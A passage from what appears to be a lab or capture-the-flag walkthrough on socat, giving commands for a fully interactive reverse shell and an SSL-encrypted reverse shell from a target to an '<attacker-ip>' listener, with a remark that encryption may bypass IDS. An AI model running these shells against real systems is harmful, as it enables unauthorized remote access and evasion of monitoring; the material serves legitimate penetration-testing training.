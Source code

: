 To spawn a fully interactive shell immediately:

**Attacker:**
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

**Target:**
```bash
socat TCP:<attacker-ip>:<port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

This provides a more stable shell with:
- `pty`: Pseudo-terminal
- `stderr`: Shows error output
- `sigint`: Allows Ctrl+C in shell
- `setsid`: Creates a new session
- `sane`: Normalizes terminal behavior

#### 📸 Screenshot: Fully Interactive Socat Shell
![Socat Full TTY Shell](https://github.com/user-attachments/assets/b08bca04-ff2f-4864-b56a-6606ba6bebf8)

---

Practice this setup to gain hands-on experience with stable shells using socat and different shell environments.



## 🔐 Task 7: Socat Encrypted Shells

Socat supports encrypted reverse and bind shells using SSL certificates, adding security and potentially bypassing IDS.

---

### 📜 Step-by-Step: Creating Encrypted Shells

1. **Generate a certificate and private key:**
```bash
openssl req --newkey rsa:2048 -nodes -keyout encrypt.key -x509 -days 362 -out encrypt.crt
```

2. **Combine key and certificate:**
```bash
cat encrypt.key encrypt.crt > encrypt.pem
```

3. **Start encrypted listener (attacker):**
```bash
sudo socat OPENSSL-LISTEN:<port>,cert=encrypt.pem,verify=0 -
```

4. **Connect back from the target:**
```bash
socat OPENSSL:<attacker-ip>:<port>,verify=0 EXEC:/bin/bash
```

---